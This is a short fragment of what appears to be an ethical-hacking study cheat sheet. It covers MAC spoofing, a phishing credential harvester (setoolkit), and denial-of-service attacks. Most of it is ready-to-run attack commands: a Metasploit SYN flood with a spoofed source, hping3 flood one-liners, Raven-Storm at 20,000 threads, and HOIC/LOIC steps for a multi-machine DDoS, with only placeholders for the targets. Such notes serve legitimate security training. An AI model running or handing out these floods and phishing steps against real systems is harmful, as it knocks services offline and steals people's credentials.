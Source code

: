     # Mac Spoofing using TMAC and SMAC
    # macchanger

	http.request.method == POST
	
	
## Social Engineering 09

	setoolkit (Credential Harvester)

	https://phistank.org
	netcraft extension (site report)


## Denial of Service 10
    # SYN Flood
	nmap -p 21 <ip>
	msfconsole -q
		msf6 > search synflood
		msf6 > use 0
		msf6 auxiliary(dos/tcp/synflood) > set rhost <target-IP>
		msf6 auxiliary(dos/tcp/synflood) > set rport 21
		msf6 auxiliary(dos/tcp/synflood) > set shost <spoofable-IP>
    # Dos Using hping3
	hping3 -S (Target IP Address) -a (Spoofable IP Address) -p 22 --flood 
	hping3 -d 65538 -S -p 21 --flood (Target IP Address)
	hping3 -2 -p 139 --flood (Target IP Address)	//-2 means UDP mode

    # Dos attack using Raven-Storm
	sudo rst
		>> l4
		>> ip <target-ip>
		>> port 80
		>> threads 20000
		>> run
    # Perform a DDoS Attack using HOIC and LOIC
	hoic.exe
		http://<target-ip>
		High
		GenericBoost.hoic
		Thread 20
		(Set this and run ddos in multiple machines)
